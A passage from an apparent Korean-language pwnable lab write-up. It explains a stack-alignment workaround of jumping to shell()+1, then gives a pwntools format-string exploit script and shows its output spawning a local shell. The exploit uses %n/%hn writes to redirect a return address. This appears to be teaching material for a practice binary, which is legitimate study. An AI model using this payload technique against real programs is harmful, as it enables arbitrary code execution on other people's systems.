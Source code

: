 그러나 스택정렬 이슈를 해결하기 위해선 pop이나 push가 있는 가젯을 사용할 수도 있겠지만 지금처럼 상황이 받쳐주지 않는다면, `push rbp` 등을 생략한 후 함수의 위치로 이동하여 해결할 수 있음
어차피 `0x0000000000401166 <+0>:	push   rbp` 이 명령어를 지나치고 진행하더라도, 에필로그에서 문제가 있는 것이기 때문에, system이 실행되는 동안은 문제가 없음
따라서 `shell_syb=e.symbols["shell"]+1` 이렇게 애초에 shell()의 주소를 1을 더해서 가져오면 됨 

---

- exploit
```python
from pwn import *

p=process("./FSB_EX")
#p=gdb.debug("./FSB_EX")
e=ELF("./FSB_EX")
context.log_level='DEBUG'

shell_syb=e.symbols["shell"]+1 #0x401166
shell_high_order=(shell_syb>>16)&0xFFFF
shell_low_order=shell_syb&0xFFFF

payload=b''

buf_addr=int(p.recvline()[2:],16)
buf_size=0xd8


payload+=b'%'+str(shell_high_order).encode()+b'c'  #b'%64c'
payload+=b'%9$n'

payload+=b'%'+str(shell_low_order-shell_high_order).encode()+b'c'   #b'%4604c'
payload+=b'%10$hn'

payload+=b'a'*(8-len(payload)%8)

payload+=p64(buf_addr+buf_size+2)
payload+=p64(buf_addr+buf_size)

#payload = b'a'*8 + payload

p.send(payload)

p.interactive()
```

---

- 결과 
```sh
┌──(foo1㉿main-server)-[~/Desktop/kknock/pwnable/FSB_EX]
└─$ python3 exploit.py 
[+] Starting local process './FSB_EX': pid 33978
[*] '/home/foo1/Desktop/kknock/pwnable/FSB_EX/FSB_EX'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Switching to interactive mode
\xc8aaaa\x1a\xb6\xc07\xfc$    id
uid=1000(foo**1**) gid=1000(foo1) groups=1000(foo1),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare),138(docker)
$  


```